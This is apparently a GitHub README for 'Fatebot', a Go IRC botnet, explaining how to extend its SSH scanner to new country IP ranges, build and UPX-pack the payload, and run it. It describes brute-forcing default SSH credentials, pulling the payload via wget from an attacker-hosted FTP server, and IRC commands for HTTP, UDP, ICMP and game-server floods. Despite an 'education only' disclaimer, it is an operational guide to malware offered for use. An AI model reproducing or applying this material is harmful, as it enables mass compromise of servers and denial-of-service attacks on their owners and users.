 # Fatebot
This is my first IRC botnet for launch Denial of Service attack. Scan target are anything that run linux, Open default SSH port, Use default username and password. This bot are write in Go language. <strong>For education purpose only. Please test it in your lab, I create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/fatebot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or You can do a random scan or even You can add you own mods like russia or india isp mods. All of these it's up to you. This bot will Brute-force attack to the target and use "wget" to get payload from FTP server, So... Please prepair your FTP server first... It's very important for The infect process. <strong>(It just me, You can use any option any server type that can host The payload.)</strong>

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function and add The case for your ip range and return range of your ip.

		case var_name:
				return scan.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of The ip range That you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	#The ip range that look like this it will return range of The id since 0 - 255 by default.
	#So... That's mean you don't need to add a case of your ip range.
	

(4) Then go down to The "ScanMode" function and add The case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			irc.BotScanner(UK_netList, ftp, payload, false) //Just config The first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of ssh port are open on which isp/org. What is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.


<img src="assets/udpflood.png" alt="udp flood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	./bin/<payload>
	
	#Tips: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
	Debian:
		apt install upx -y && upx -9 bin/<payload>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target. Shouldn't have "/" end of The url!!!
	?post 	<url>			Flood HTTP post request to target. Shouldn't have "/" end of The url!!!
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To The target server that used to host online games.
	?scan 	<modes> <ftp>		Scan SSH port on The network, Brute-Force attack to The target and load The payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united states network. 
		-r		Scan on random ip range. 	
		
	?info				Get bot system information, For bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
